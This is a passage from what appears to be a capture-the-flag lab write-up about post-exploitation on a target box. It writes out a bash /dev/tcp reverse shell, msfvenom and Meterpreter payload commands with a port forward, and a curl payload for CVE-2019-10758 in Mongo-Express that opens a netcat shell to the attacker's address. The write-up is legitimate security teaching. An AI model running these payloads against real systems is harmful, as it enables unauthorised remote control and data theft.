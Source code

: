```bash
[+] Sending Reverse Shell Integration
[+] Shell for 10.8.98.143:6666 Has Executed!
```
It works, admin's password has changed before to use the revshell we login on website to see if there is something and indeed:
```
Admin 4:33 PM
Hey Laurent, I've recently upgraded the authentication mechanism for this portal and made a full database backup just in case we need to revert. If any of the team's passwords are not working can you please tell them to notify me and I will set a new password for them. Cheers!
```
It seems there is a db-backup, keep in mind for later.

We have a revshell but I prefer to switch on pwncat with the following command:
```bash
python3 -m pwncat -lp 5555 #listener

/bin/bash -i >& /dev/tcp/10.8.98.143/5555 0>&1 #revshell
```
We proceed with some manual enumeration and recognition. After some times the most valuable information are:

- /app/bundle/README:
```bash
$ export MONGO_URL='mongodb://user:password@host:port/databasename'
```
- Env command:
```bash
MONGO_WEB_INTERFACE=172.17.0.4:8081
```
- Previous email talks about a db backup

It's time to forward some port, we can use chisel or other tool I prefer to use Meterpreter so:
```bash
msfconsole -q -x "use multi/handler; set payload linux/x64/meterpreter/reverse_tcp; set lhost 10.8.98.143; set lport 7777; exploit" #listener

msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.8.98.143 LPORT=7777 -f elf -o reverse.elf #command to create payload

upload rev.elf /tmp/rev.elf #pwncat command

chmod +x rev.elf
./rev.elf
```
Meterpreter command to forward it:
```bash
portfwd add -l 8081 -L 127.0.0.1 -p 8081 -r 172.17.0.4
```

We can now visit the following URL __"http://127.0.0.1:8081"__, it's a Mongo-Express login page, we don't have any credentials so we use our friend google to search something on mongo-express

This [link](https://github.com/masahiro331/CVE-2019-10758) talk about a possible revshell send via __"Curl"__:
```bash
nc -lnvp 10002 #listener

curl 'http://localhost:8081/checkValid' -H 'Authorization: Basic YWRtaW46cGFzcw=='  --data 'document=this.constructor.constructor("return process")().mainModule.require("child_process").exec("busybox nc 10.8.98.143 10002 -e /bin/bash")' #command

```
We have another revshell, we can look around...
The most interesting thing afters some time spend on the filesystem is the /backup folder (db backup from the previous message), we can download it by switching on pwncat:
```bash
pwncat-cs -lp 12001 #listener
```